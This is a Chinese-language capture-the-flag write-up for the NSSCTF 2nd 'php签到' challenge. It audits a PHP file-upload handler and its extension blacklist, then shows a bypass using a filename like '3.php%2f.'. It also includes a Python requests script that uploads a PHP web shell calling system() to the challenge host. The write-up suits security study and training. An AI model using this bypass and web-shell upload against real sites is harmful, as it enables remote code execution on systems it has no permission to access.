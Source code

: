# 【NSSCTF 2nd】php签到


# [NSSCTF 2nd]php签到

## 思路
* 源码

  ```
    &lt;?php
  
  function waf($filename){
      $black_list = array(&#34;ph&#34;, &#34;htaccess&#34;, &#34;ini&#34;);
      $ext = pathinfo($filename, PATHINFO_EXTENSION);
      foreach ($black_list as $value) {
          if (stristr($ext, $value)){
              return false;
          }
      }
      return true;
  }
  
  if(isset($_FILES[&#39;file&#39;])){
      $filename = urldecode($_FILES[&#39;file&#39;][&#39;name&#39;]);
      $content = file_get_contents($_FILES[&#39;file&#39;][&#39;tmp_name&#39;]);
      if(waf($filename)){
          file_put_contents($filename, $content);
      } else {
          echo &#34;Please re-upload&#34;;
      }
  } else{
      highlight_file(__FILE__);
  } 
  ```
  

* 代码审计

  ```
  function waf($filename){
      $black_list = array(&#34;ph&#34;, &#34;htaccess&#34;, &#34;ini&#34;);
      $ext = pathinfo($filename, PATHINFO_EXTENSION);
      foreach ($black_list as $value) {
          if (stristr($ext, $value)){
              return false;
          }
      }
      return true;
  } 
  ```

  黑名单说明不能使用

  * pathinfo 函数用于获取文件路径的信息,包括目录名,文件名,扩展名等
  * htaccess
  * user.ini

  ```
  if(isset($_FILES[&#39;file&#39;])){
      $filename = urldecode($_FILES[&#39;file&#39;][&#39;name&#39;]);
      $content = file_get_contents($_FILES[&#39;file&#39;][&#39;tmp_name&#39;]);
      if(waf($filename)){
          file_put_contents($filename, $content);
      } else {
          echo &#34;Please re-upload&#34;;
      }
  } else{
      highlight_file(__FILE__);
  }
  ```

  由`$_FILES[&#39;file&#39;]` 可以判断是要上传文件,但是页面没有给出上传文件的选项,因此**需要手动上传表单文件**

  `$_FILES[&#39;file&#39;][&#39;name&#39;]` 就是上传的文件名信息,会先被url解码然后赋值给$filename

  `$_FILES[&#39;file&#39;][&#39;tmp_name&#39;]` 是上传的文件的临时存储路径信息,例如 /var/www/html/1.php

  `$content` 会读取上传的文件里面的内容  如果$filename满足waf()函数要求,就把$content内容 写入文件$filename

* 绕过对文件名的限制

  使用1.php/.在linux中会被识别为在1.php中创建`.`文件

  或者1.php.后面时空字符就绕过了

* 脚本上传文件

  ```
  import requests
  
  url = &#39;http://node5.anna.nssctf.cn:23626/&#39;  # 上传文件地址
  file_content = &#34;&lt;?php system(env); ?&gt;&#34;
  files = {&#39;file&#39;: (&#39;3.php%2f.&#39;, file_content)}
  response = requests.post(url=url, files=files)
  print(response.text)
  ```

* 直接访问对应的php文件，则直接可以看到结果

## 总结

* 文件上传

---

> Author: [Ting](Tin10g.github.io)  
> URL: http://localhost:1313/posts/2024%E5%81%9A%E9%A2%98-nssctf-2ndphp%E7%AD%BE%E5%88%B0/  

